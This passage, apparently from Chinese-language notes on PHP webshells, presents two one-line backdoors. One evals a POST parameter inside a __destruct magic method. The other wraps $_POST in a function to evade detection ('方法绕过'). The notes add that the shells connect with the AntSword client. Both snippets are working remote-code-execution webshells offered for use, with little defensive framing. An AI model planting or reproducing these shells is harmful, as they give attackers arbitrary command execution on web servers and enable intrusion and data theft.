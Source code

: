 **__destruct 析构函数(魔术方法)**
```php

<?php 
class User
{
  public $name = '';
 
  function __destruct(){
    eval("$this->name");
  }
}
 
$user = new User;
$user->name = ''.$_POST['shell'];
?>
```
> 可使用蚁剑连接

![](img/4.png)

---

**方法绕过**
```php
<?php function fun(){return $_POST;}eval(fun()['shell']);?>
```
其实就是构造了 `eval($_POST['shell']);`
